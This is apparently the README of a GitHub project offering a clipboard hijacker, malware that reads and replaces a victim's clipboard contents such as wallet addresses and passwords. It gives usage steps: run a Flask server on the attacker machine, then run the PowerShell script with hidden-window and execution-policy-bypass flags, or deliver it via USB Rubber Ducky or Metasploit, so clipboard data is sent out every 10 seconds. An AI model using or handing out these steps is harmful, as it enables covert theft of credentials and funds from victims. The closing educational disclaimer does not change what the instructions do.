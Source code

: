 # Clipboard_Hijacker
A Clipboard Hijacker is a type of malware or script designed to monitor and manipulate the contents of a system’s clipboard. This is particularly dangerous in contexts where users copy sensitive data (like cryptocurrency addresses, passwords, or command-line instructions). The attacker typically replaces clipboard contents with their own data, often unnoticed by the victim.

# What Does a Clipboard Hijacker Do?
## Monitors Clipboard Activity :
Continuously checks the system clipboard for changes.
Typically runs silently in the background.

## Checks for Specific Patterns:
Looks for specific formats (e.g., Bitcoin wallet addresses, URLs, credit card numbers).
Uses regex to identify such patterns.
Replaces Clipboard Content:

## Injects attacker-controlled data (e.g., attacker's wallet address).
Victim unknowingly pastes the attacker’s data instead of their own.

# How to use
Run Flask webserver your attacker machine using python so you need to install flask.

python3 -m pip install flask
Now you can run the following command for run the server

python3 server.py
change your webserver's IP address in clipboardhijacker.ps1 file & run this script using following command or other method like USB rubber ducky, metasploit command execution etc.

## 1. For Windows
#### powershell -NoP -NonI -W h -Exec Bypass .\clipBoardHijacker.ps1
## 2. For Linux
###   Dependencies: The Bash script requires xclip, curl, and jq, which are easily installed on most Linux distributions. On macOS, you can replace xclip with pbpaste and adjust the script accordingly.
   
#### chmod +x clipBoardHijacker.sh
#### ./clipBoardHijacker.sh

After that your webserver will getting target machine clipboard data in every 10 sec.

# Ethical and Legal Warning
Using or distributing clipboard hijackers for malicious purposes is illegal and unethical. This information is intended only for educational and awareness purposes (e.g., malware analysis, red teaming with permission, or teaching cybersecurity concepts).
